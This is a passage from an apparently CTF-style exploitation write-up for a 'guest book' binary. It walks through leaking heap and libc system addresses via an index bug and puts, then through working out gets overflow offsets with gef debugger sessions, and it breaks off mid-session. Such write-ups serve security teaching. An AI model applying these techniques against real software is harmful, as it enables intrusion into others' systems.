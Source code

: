 ```
gef➤  x/i 0xf7e1ac00
   0xf7e1ac00 <system>: call   0xf7f1568d
gef➤  x/w 0xffffd10c
0xffffd10c: 0x56558160
```

So we can see our array of heap pointers. After it, we see an interesting pointer at `0xffffd124` that points to the beginning of our array of heap pointers. We can reach this using the index check bug in `readName` (index `6`), so we can leak a heap pointer with this. What is interesting is if we do that, we will also get a libc infoleak bug.

The function `puts` will only stop printing until it reaches a null byte. Looking at the memory, we can see that there are no null bytes in between the start if the array of heap pointers, and the address of `system`. Thus if we print the address `xffffd10c` with puts in this scenario, we will also get the address of `system` due to the lack of null bytes. With that we get both a heap infoleak, and a libc infoleak to `system`.

#### Buffer Overflow

So for the buffer overflow, we will use `gets` to overwrite the return address. However we will need to overwrite a pointer that is written to with `strcpy`. Let's take a look at the stack layout:

```
  char *ptr;
  int iVar1;
  char changeNameInput [100];
  int changeIndex;
  int menuChoice;
  char *ptrArray [4];
  undefined *systemVar;
  int i;
  bool continue;
```

So we can see that the offset between the start of our input (located in `changeNameInput`) and the start of the array of pointers (located in `ptrArray`) is `0x6c` (`100 + 4 + 4 = 0x6c`). So if we go to edit the first pointer in the array while using the `gets` bug, then we will just have to place a heap pointer to memory that when written to won't cause a crash at offset `0x6c`.

Proceeding that, we need to find the offset from the start of our input in gets to the return address.


Set a breakpoint for the `strcpy` call:
```
gef➤  pie b *0x994
gef➤  pie run
Stopped due to shared library event (no libraries added or removed)
Please setup your guest book:
Name for guest: #0
>>>15935728
Name for guest: #1
>>>75395128
Name for guest: #2
>>>35715928
Name for guest: #3
>>>95135728
---------------------------
1: View name
2: Change name
3. Quit
>>2
Which entry do you want to change?
>>>0
Enter the name of the new guest.
>>>0000000000

```